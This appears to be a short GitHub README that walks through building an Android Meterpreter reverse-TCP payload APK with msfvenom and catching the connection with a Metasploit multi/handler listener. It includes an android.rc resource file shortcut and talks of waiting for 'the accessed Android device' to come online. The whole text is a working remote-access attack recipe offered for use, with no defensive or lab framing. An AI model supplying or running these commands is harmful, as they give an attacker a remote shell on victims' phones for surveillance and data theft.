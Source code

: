 ### androidcode

# Android payload Generating Metasploit.....!

```
msfvenom -p android/meterpreter/reverse_tcp lhost=$lhost lport=$port -o  $name.apk && clear
```

# payload listener ( For listening to the accessed Android device)

```
sudo msfconsole
```
```
use exploit/multi/handler

```
```
set payload android/meterpreter/reverse_tcp
```
```
set lhost $lhost

```
```
set lport 8080
```
```
exploit
```

#### you guys can speed up your hack by make a android.rc file 

=====================> just follow my lead 

#### just edit the file named android.rc file 

### Edit the  lhost & lport 

### Run the listenerusing the android.rc file 
```
msfconsole -r android.rc
```
wait for the accessed Android device to come in line......>>>! 
